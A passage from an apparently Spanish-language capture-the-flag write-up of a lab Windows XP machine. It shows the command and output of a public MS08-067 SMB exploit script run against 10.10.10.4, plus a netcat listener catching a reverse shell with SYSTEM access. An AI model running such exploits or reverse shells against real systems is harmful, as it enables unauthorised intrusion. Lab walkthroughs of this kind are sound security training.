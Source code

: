 Ahora que tenemos la información actualizada vamos a ejecutar el exploit.

```bash
❯ python ms08_067_2018.py 10.10.10.4 6 445
  #######################################################################
  #   MS08-067 Exploit
  #   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
  #   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_0  67_netapi
  #
  #   Mod in 2018 by Andy Acer:
  #   - Added support for selecting a target port at the command line.
  #     It seemed that only 445 was previously supported.
  #   - Changed library calls to correctly establish a NetBIOS session for SMB transport
  #   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
  #     into this source file.
  #######################################################################
  
  Windows XP SP3 English (NX)
  
  [-]Initiating connection
  [-]connected to ncacn_np:10.10.10.4[\pipe\browser]
  Exploit finish
  
  Ponemos un listener logrando obtener una reverse shell exitosamente
```
Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`
  
```bash
  ❯ rlwrap nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.7] from (UNKNOWN) [10.10.10.4] 1032
  Microsoft Windows XP [Version 5.1.2600]
  (C) Copyright 1985-2001 Microsoft Corp.
  
  hostname
  hostname
  legacy
```

## ESCALADA DE PRIVILEGIOS

En esta ocasión el escalamiento de privilegios no fue necesario debido a que la explotación de ambos CVEs nos permitió el acceso al usuario administrador directamente, dando una ventaja en cuando a la búsqueda de vías potenciales de escalamiento.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 
